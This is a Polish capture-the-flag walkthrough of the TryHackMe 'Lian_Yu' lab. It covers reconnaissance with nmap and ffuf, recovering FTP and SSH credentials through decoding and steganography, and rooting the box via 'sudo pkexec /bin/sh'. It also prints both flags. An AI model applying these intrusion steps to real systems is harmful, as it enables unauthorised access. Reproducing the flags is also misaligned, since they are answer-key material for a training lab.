

# Lian_Yu
IP=10.10.150.110

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.150.110   
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-29 11:01 EDT
Nmap scan report for 10.10.150.110
Host is up (0.059s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40675/udp   status
|   100024  1          42048/tcp   status
|   100024  1          45620/udp6  status
|_  100024  1          58428/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.33 seconds
```

Zostały wykryte cztery porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:


Widzimy stronę nawiązującą do serii seriali Arrowverse, przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/FUZZ -c 
```

Otrzymujemy następujące wyniki:


Przechodzimy do katalogu "island":


W źródle strony znajdujemy prawdopodobny login użytkownika:


```
vigilante
```

Kontynuujemy dalszą enumerację:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/island/FUZZ -c
```


Przechodzimy do katalogu "2100":


W źródle strony znajdujemy podpowiedź, aby szukać na serwerze plików z rozszerzeniem .ticket:



Rozpoczynamy enumerację plików z rozszerzeniem .ticket:


Znajdujemy plik "green_arrow.ticket":


```
RTy8yhBQdscX
```

Za pomocą [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło przy użyciu Base58:


```
!#th3h00d
```

### Port 21

Logujemy się do serwisu FTP za pomocą znalezionych danych i pobieramy znajdujące się tam pliki:

```
vigilante:!#th3h00d
```


W pobranym pliku .other_user znajdujemy potencjalną nazwę użytkownika:


```
slade
```

Przechodzimy do analizy pobranych zdjęć. Za pomocą narzędzia StegCracker łamiemy hasło do pliku aa.jpg:


```
password
```
Wykorzystując program StegHide otrzymujemy dostęp do ukrytych informacji:

[Aa](img/Aa.JPG)

### Port 22

Plik shado zawiera potencjalne hasło. Próbujemy zalogować się do serwisu SSH przy pomocą znalezionych danych:

```
slade:M3tahuman
```

[SSH](img/SSH.JPG)

 w pliku user.txt znajdujemy pierwszą flagę:

[Flag1](img/Flag1.JPG)

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

## Zwiększenie poziomu uprawnień

Za pomocą poniższej komendy sprawdzamy uprawnienia użytkownika slade:

```
sudo -l
```

[Pkexec](img/Pkexec.JPG)

Użytkownik slade może uruchomić komendę pkexec jako root. Wykorzystujemy to do uzyskania dostępu do konta root:

```
sudo pkexec /bin/sh
```

[Root](img/Root.JPG)

W pliku root.txt znajdujemy drugą flagę:

[Flag2](img/Flag2.JPG)

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

Do zobaczenia na kolejnych CTF-ach!

